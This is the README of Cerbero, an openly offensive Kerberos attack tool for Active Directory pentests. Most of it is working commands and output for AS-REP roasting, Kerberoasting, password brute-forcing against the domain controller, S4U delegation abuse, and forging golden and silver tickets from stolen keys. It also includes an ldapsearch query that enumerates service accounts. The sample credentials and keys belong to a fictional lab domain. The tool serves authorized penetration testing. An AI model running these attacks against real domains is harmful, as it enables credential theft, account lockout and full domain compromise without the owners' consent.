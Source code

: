 <!-- cargo-sync-readme start -->

# Cerbero

Kerberos protocol attacker. Tool to perform several tasks
related with Kerberos protocol in an Active Directory pentest.

## Installation

From crates:
```sh
cargo install cerbero
```

From repo:
```sh
git clone https://gitlab.com/Zer1t0/cerbero.git
cd cerbero/
cargo install --path .
```

## Commands
- [ask](#ask)
- [asreproast](#asreproast)
- [brute](#brute)
- [convert](#convert)
- [craft](#craft)
- [hash](#hash)
- [kerberoast](#kerberoast)
- [list](#list)

### Ask
The `ask` command allows to retrieve Kerberos tickets (TGT/TGS) from the KDC
(Domain Controller in Active Directory environment). Moreover also
perform requests to obtain tickets by using the S4U2Self and S4U2Proxy
Kerberos extensions.

Ask TGT:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -vv
INFO - Request TGT for Hades
INFO - Save Hades TGT in Hades.ccache
```

Ask TGS:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -s ldap/under.world -vv
WARN - No TGT found in Hades.ccache: Unable to read the file 'Hades.ccache': No such file or directory (os error 2)
INFO - Request TGT for Hades
INFO - Request ldap/dc01 TGS for Hades
INFO - Save Hades TGS for ldap/dc01 in Hades.ccache
```

Perform S4u2self:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -i Zeus
WARN - No TGT found in Hades.ccache: Unable to read the file 'Hades.ccache': No such file or directory (os error 2)
INFO - Request TGT for Hades
INFO - Request Zeus S4U2Self TGS for Hades
INFO - Save Zeus S4U2Self TGS for Hades in Hades.ccache
```

Perform S4u2proxy:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -i Zeus -s ldap/under.world -vv
WARN - No TGT found in Hades.ccache: Unable to read the file 'Hades.ccache': No such file or directory (os error 2)
INFO - Request TGT for Hades
WARN - No Zeus S4U2Self TGS for Hades found
INFO - Request Zeus S4U2Self TGS for Hades
INFO - Request ldap/under.world S4U2Proxy TGS for Zeus
INFO - Save Zeus S4U2Proxy TGS for ldap/under.world in Hades.ccache
```


### AsRepRoast
`asreproast` can be used to discover users that do not require
pre-authentication and retrieve a ticket to crack with hashcat or john.

Check many users:
```shell
cerbero asreproast under.world users.txt
```

Check many users with weak RC4 cipher (easier to crack):
```shell
cerbero asreproast under.world users.txt --cipher rc4
```

### Brute
`brute` performs TGTs requests in order to discover user credentials
based on the KDC response. This bruteforce technique allows you to
discover:
+ Valid username/password pairs
+ Valid usernames
+ Expired passwords
+ Blocked or disabled users

This attack should be performed carefully since can block user
accounts in case of perform many incorrect authentication attemps
for the same user.

Test many users and passwords:
```shell
cerbero brute under.world users.txt passwords.txt
```

Test one user and many passwords:
```shell
cerbero brute under.world Zeus passwords.txt
```

Test many users and one password:
```shell
cerbero brute under.world users.txt Olympus1234
```

Test one user and one password:
```shell
cerbero brute under.world Zeus Olympus1234
```

### Convert
`convert` ticket files between krb (Windows) and
ccache (Linux) formats.

Convert ccache to krb:
```shell
cerbero convert hades.ccache hades.krb
```

Convert krb to ccache:
```shell
cerbero convert hades.krb hades.ccache
```
### Craft
To `craft` golden and silver tickets.

Craft a golden ticket (by using the `krbtgt` AES256 key):
```shell
$ cerbero craft -u under.world/kratos --sid S-1-5-21-658410550-3858838999-180593761 --aes fed0c966ff7f88d776bb35fed0f039725f8bbb87017d5b6b76ee848f25562d2c -vv
INFO - Save kratos TGT in kratos.ccache
```

Craft a silver ticket (for the service `cifs` hosted by the machine `styx`):
```shell
$ cerbero craft -u under.world/kratos --sid S-1-5-21-658410550-3858838999-180593761 --ntlm 29f9ab984728cc7d18c8497c9ee76c77 -s cifs/styx,under.world -vv
INFO - Save kratos TGS for cifs/styx.under.world in kratos.ccache
```

### Hash
Calculate the Kerberos keys (password hashes) from the user password.

Calculate RC4 key (NT hash):
```shell
$ cerbero hash 'IamtheKingofD34d!!'
rc4:86e0a04f7a44ed4d4a7eaf2ee977c799
```

Calculate all the keys:
```shell
$ cerbero hash 'IamtheKingofD34d!!' -u under.world/Hades
rc4:86e0a04f7a44ed4d4a7eaf2ee977c799
aes128:fe165dec904772a90a177069e4ea7019
aes256:1304965c35176aeb72e1ae5fdd6c2fe2e901af7223cb75f5eaac25ad667136e7
```

### Kerberoast
To format encrypted part of tickets in order to be cracked by hashcat or john.

```shell
$ cerbero kerberoast -s services.txt -u under.world/Hades -p IamtheKingofD34d!!
```
To get a list of services you could use `ldapsearch`:
```shell
ldapsearch -b "dc=under,dc=world" -w IamtheKingofD34d!! -D "Hades@under.world" "(&(samAccountType=805306368)(servicePrincipalName=*)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))" servicePrincipalName | grep servicePrincipalName: | cut -d ' ' -f 2 | tee services.txt
```

### List
`list` shows the tickets information of a credentials file. Similar
to `klist` command.

```shell
$ cerbero list hades.ccache -fe
Ticket cache (ccache): FILE:hades.ccache

Hades@UNDER.WORLD => krbtgt/UNDER.WORLD@UNDER.WORLD
Valid starting: 12/22/2020 17:39:34
Expires : 12/23/2020 03:39:34
Renew until: 12/29/2020 17:39:34
Flags: FRIA
Etype (skey, tkt): aes256-cts-hmac-sha1-96 (18), aes256-cts-hmac-sha1-96 (18)
```

## Credits
This work is based on great work of other people:
- [Impacket](https://github.com/SecureAuthCorp/impacket) of Alberto Solino [@agsolino](https://github.com/agsolino)
- [Rubeus](https://github.com/GhostPack/Rubeus) of Will [@harmj0y](https://twitter.com/harmj0y) and Elad Shamir [@elad_shamir](https://twitter.com/elad_shamir)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz) of [@gentilkiwi](https://twitter.com/gentilkiwi)

<!-- cargo-sync-readme end -->
